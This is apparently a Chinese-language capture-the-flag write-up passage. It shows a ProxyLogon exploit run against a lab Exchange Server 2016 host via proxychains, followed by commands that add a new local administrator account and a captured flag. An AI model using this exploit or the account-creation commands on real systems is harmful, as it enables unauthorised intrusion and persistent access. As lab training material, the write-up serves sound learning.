 然后发现 172.22.3.9 是发现是 Exchange Server 2016，直接打[ProxyLogon](https://github.com/hausec/ProxyLogon)

```bash
proxychains python2 proxylogon.py 172.22.3.9 administrator@xiaorang.lab
```

[![](assets/1707954377-76488a27c7f8a6498b81991db2d78c68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173803-17c19204-c341-1.png)

成功弹到 shell

```bash
net user lky qwer1234! /add
net localgroup administrators lky /add
```

添加一个用户登录成功（其实这里以及到 shell，就可以直接拿 flag，但是我对 cmd 的指令不是很熟悉，所以就开了一个用户做了，不过后面 dumphash 的时候还是要登录上用户的）

```bash
flag{5721ef82-5358-4745-8f00-ab9e06528868}
```
